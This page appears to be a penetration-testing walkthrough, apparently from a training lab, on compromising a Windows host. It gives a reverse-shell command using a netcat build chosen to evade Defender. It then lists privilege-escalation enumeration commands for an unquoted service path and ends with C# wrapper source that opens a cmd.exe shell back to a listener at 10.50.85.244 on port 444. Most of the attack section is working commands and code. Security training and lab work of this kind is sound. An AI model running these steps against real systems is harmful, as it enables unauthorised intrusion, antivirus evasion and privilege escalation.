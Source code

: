<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

Now to get a reverse shell, Defender will easily identify a powershell exploit and PHP reverse shells may be unstable, the easiest option is to upload netcat. Here also we need a version different to the norm so Defender can't catch it

{% embed url="https://github.com/int0x33/nc.exe/" %}

Use python server and you get a reverse shell.

`powershell.exe c:\windows\temp\nc-USERNAME.exe ATTACKER_IP ATTACKER_PORT -e cmd.exe`

Refer the above ss, use powershell to prevent shell from exiting early

**Windows Prives you can do w obfus .exe of WinPEAS but manual always imp**

`whoami /priv`\
`whoami /groups`

`wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"`

Returns non core processes, one of them has unquoted service path

`sc qc SystemExplorerHelpService`

`powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"`

Checking if we have write perms to the unquoted path and yes we do

Time to write a service&#x20;

```
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-tripz.exe", "10.50.85.244 444 -e cmd.exe");
            procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}
```
